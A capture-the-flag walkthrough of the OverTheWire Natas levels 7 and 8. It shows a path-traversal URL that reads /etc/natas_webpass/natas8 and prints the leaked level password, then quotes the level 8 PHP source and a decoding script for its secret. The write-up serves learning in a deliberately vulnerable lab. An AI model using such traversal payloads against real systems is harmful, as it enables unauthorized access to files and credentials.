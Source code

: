 Output:
Warning: include(../../../etc/natas_webpass/natas8): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening '../../../etc/natas_webpass/natas8' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21

Try: http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8

Output:  DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

natas8
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Done!
---

Natas Level 7 → Level 8

Username: natas8
URL:      http://natas8.natas.labs.overthewire.org
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Input Secret area.
View source code:

```
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

We can just run the opposite:

<?php
   function decodeSecret($secret) {
    return base64_decode(strrev(hex2bin($secret)));

   }

print decodeSecret("3d3d516343746d4d6d6c315669563362");

?>
